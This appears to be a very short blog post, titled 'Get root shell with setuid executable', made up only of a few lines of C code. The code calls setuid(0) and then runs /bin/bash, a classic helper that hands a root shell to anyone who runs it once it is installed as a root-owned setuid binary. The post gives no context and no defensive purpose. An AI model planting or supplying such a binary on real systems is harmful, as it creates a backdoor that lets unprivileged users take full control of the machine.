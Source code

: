 ```yaml
---
layout: post
title: "Get root shell with setuid executable"
description: ""
category: 
tags: []
---
```





<pre><code>#include &lt;unistd.h&gt;

int main() {
  const char *b = "/bin/bash";
  setuid(0);
  execl(b, b, 0);
}
</code></pre>

